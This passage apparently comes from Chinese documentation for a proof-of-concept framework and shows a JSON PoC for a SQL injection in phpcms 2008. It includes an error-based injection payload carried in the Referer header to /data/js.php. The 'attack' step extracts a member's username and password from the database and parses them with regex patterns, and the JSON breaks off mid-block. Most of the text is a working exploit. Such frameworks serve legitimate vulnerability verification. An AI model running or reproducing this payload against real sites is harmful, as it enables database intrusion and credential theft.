##### [PoC JSON 代码示例](#jsonexample)
[phpcms_2008_/ads/include/ads_place.class.php_sql注入漏洞](http://www.seebug.org/vuldb/ssvid-62274) PoC:

由于 JSON 不支持注释,所以具体字段意义请参考上文，涉及到的靶场请自行根据 Seebug 漏洞详情搭建。

```
{
    "pocInfo": {
        "vulID": "62274",
        "version":"1",
        "vulDate":"2011-11-21",
        "createDate":"2015-09-15",
        "updateDate":"2015-09-15",
        "name": "phpcms_2008_ads_place.class.php_sql-inj",
        "protocol": "http",
        "vulType": "SQL Injection",
        "author": "Medici.Yan",
        "references": ["http://www.seebug.org/vuldb/ssvid-62274"],
        "appName": "phpcms",
        "appVersion" : "2008",
        "appPowerLink":"http://www.phpcms.cn",
        "desc" :"phpcms 2008 中广告模块，存在参数过滤不严，导致了sql注入漏洞，如果对方服务器开启了错误显示，可直接利用，如果关闭了错误显示，可以采用基于时间和错误的盲注",
        "samples": ["http://127.0.0.1"]
    },

    "pocExecute":{
        "verify": [
            {
                "step": "0",
                "method": "get",
                "vulPath": "/data/js.php",
                "params": "id=1",
                "necessary": "",
                "headers": {"Referer":"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),char(45,45,45),(SELECT md5(1)))a from information_schema.tables group by a)b), '0')#"},
                "status": "200",
                "match": {
                    "regex": ["c4ca4238a0b923820dcc509a6f75849b"],
                    "time":""
                }
            }
        ],
        "attack": [
            {
                "step": "0",
                "method": "get",
                "vulPath": "/data/js.php",
                "params": "id=1",
                "necessary": "",
                "headers": {"Referer":"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),char(45,45),(SELECT concat(username,char(45,45,45),password,char(45,45)) from phpcms_member limit 1))a from information_schema.tables group by a)b), '0')#"},
                "status":"200",                
                "match":{
                    "regex": ["Duplicate"],
                    "time": ""
                },
                "result":{
                    "AdminInfo":{
                        "Username":"<regex>--(.+)---",
                        "Password": "<regex>---(.+)--"
                    }
```